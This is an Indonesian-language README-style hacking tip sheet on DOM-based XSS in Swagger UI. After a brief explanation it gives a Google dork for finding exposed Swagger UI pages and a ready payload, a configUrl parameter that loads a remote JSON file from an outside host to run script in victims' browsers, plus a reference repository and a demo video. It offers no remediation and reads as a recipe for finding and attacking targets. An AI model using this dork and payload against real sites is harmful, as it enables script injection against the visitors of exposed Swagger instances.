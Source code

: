 # 🚀 DOM-based XSS pada Swagger UI

Singkatnya DOM-Based XSS adalah jenis serangan XSS di mana eksekusi skrip berbahaya terjadi di sisi klien (browser) melalui manipulasi DOM, tanpa respons langsung dari server. Serangan ini biasanya terjadi ketika JavaScript mengambil input dari URL atau elemen DOM lain tanpa validasi, memungkinkan penyerang menyisipkan dan menjalankan kode berbahaya di halaman web korban.


# ⚡ Refrensi
https://github.com/seanmarpo/webjars-swagger-xss


# 🔎 Dork

```
intitle:"Swagger UI" site:.
```


# 👨‍💻 Payload

```
?configUrl=https://xss.smarpo.com/test.json
```

# 🖼️ Screenshots 


# 🎥 Video

[![Watch on YouTube](https://img.youtube.com/vi/dP2SHlghC0E/0.jpg)](https://youtu.be/dP2SHlghC0E)


Semoga mudah di pahami
